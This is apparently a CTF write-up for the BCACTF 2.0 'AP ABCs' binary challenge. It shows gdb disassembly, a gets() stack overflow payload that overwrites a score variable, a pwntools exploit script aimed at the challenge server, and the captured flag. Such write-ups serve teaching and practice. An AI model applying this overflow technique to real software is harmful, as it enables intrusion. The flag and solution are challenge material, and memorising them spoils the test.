 # AP ABCs

#### Category : binex
#### Points : 100 points (195 solves)
#### Author : Edward Feng

## Challenge
Oh wow, they put a freshman in AP ABCs? Never thought I'd see this happen. Anyways, good luck, and make sure to not cheat on your AP test!

-   [ap-abcs.c](https://objects.bcactf.com/bcactf2/ap-abcs/ap-abcs.c)
-   [ap-abcs](https://objects.bcactf.com/bcactf2/ap-abcs/ap-abcs)
-   `nc bin.bcactf.com 49154`

## Solution
Reading the souce code, it is clear that we need to overflow the value of `score` to `0x73434241` using the `gets(response);` call.

Debugging the binary with gdb, we find the instructions where comparisons take place
```bash
   0x0000555555555583 <+762>:	cmp    DWORD PTR [rbp-0x8],0x0
   0x0000555555555587 <+766>:	jne    0x555555555590 <main+775>
   0x0000555555555589 <+768>:	mov    DWORD PTR [rbp-0x4],0x1
   0x0000555555555590 <+775>:	cmp    DWORD PTR [rbp-0x8],0x7
   0x0000555555555594 <+779>:	je     0x5555555555a8 <main+799>
   0x0000555555555596 <+781>:	cmp    DWORD PTR [rbp-0x8],0xe
   0x000055555555559a <+785>:	je     0x5555555555a8 <main+799>
   0x000055555555559c <+787>:	cmp    DWORD PTR [rbp-0x8],0x14
   0x00005555555555a0 <+791>:	je     0x5555555555a8 <main+799>
   0x00005555555555a2 <+793>:	cmp    DWORD PTR [rbp-0x8],0x18
   0x00005555555555a6 <+797>:	jne    0x5555555555ac <main+803>
   0x00005555555555a8 <+799>:	add    DWORD PTR [rbp-0x4],0x1
   0x00005555555555ac <+803>:	add    DWORD PTR [rbp-0x8],0x1
 ```
 
 `rbp-0x8` is the counter variable `i` and `rbp-0x8` is the variable `score`
 We need to overflow the value of `rbp-0x4` to `0x73434241`.
 Setting a breakpoint and trying out different length of payloads, we find the following is able to overwrite `rbp-0x4` to our required value.
 
 ```bash
 run < <(python -c "print('A'*76+'\x41\x42\x43\x73')")
 ```
 ```bash
 gef➤  x/x $rbp-0x4
0x7fffffffe72c:	0x73434241
```

#### Getting flag
We can make our [get_flag.py](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/AP%20ABCs/get_flag.py) script as :
```python
#!/usr/bin/python2
from pwn import *
host = "bin.bcactf.com"
port = 49154
payload = "A"*76 + "\x41\x42\x43\x73"
s = remote(host, port)
s.recvuntil("Answer for 1:")
s.sendline(payload)
print(s.recvuntil("bcactf{")[-7:] + s.recvuntil("}"))
```
```bash
[+] Opening connection to bin.bcactf.com on port 49154: Done
bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}
[*] Closed connection to bin.bcactf.com port 49154
```

flag : `bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}`